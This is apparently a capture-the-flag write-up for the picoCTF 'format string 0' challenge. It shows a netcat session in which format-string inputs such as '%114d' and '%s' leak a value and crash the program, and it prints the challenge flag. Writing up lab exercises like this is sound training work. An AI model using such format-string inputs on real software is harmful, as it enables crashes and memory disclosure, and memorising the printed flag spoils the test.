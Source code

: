 # 1. format string 0

Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 60954

## Solution:
114d so 114 digit decimal number
%s string
```bash
nc mimas.picoctf.net 60954
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```
## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_c8362f05}
```

## Concepts learnt:
format string vulneribility is when we send input to something and then that input printed is interpreted wrong and allows the terminal to leak info.


 





